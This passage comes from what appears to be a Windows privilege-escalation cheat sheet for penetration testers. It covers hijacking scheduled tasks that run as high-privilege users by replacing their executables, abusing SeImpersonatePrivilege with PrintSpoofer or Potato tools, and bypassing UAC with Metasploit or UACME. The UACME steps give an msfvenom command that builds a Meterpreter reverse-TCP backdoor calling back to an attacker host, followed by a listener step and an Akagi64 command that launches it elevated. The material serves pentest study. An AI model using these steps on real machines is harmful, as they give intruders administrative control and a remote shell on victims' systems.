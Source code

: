 **To exploit this**:

1. We can view scheduled task with the following command:

    ```powershell
    schtasks /query /fo LIST /v
    ```

    Look for tasks with interesting information in the `Task To Run`, `Run As User`, `Next Run Time`, `Author` fields.

2. If you find a task running under a **high-privilege user**, check the permissions on the file it executes using `icalcs`.

3. **Replace the executable file** specified in the action of the scheduled task.

4. **Wait for the task to run**

---

## SeImpersonatePrivilege

`SeImpersonatePrivilege` is a Windows security privilege that allows a process to impersonate another user or process after authentication.

This privilege is commonly assigned to services and processes that need to act on behalf of users (for example, IIS).
By default, Local System, Network Service, Local Service, and some authenticated services have this privilege.

**To exploit this**:

<details><summary>PrintSpoofer.exe</summary></details>

    > **Note**: There are other tools available to accomplish this, such as **Juicy Potato**, **Rogue Potato**, etc.
   

---

## UAC Bypass

User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.

Prerequisites:

1. User must be a member of the Administrators group. `net localgroup administrators`
2. Full interactive shell with the victim like meterpreter (a common nc.exe shell is not enough).

**(1) Metasploit**

```sh
search bypassuac
```

**(2) UACME**

```sh
# 1. Step
ps
migrate <PID explorer.exe>

# 2. Step - Upload Akagi (Akagi64.exe if x64)

# 3. Step - Create payload with msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe

# 4. Step - Start a listener (exploit/multi/handler)

# 5. Step - Run Akagi
Akagi64.exe 23 <payload_full_path> # NOTE FULL PATH

```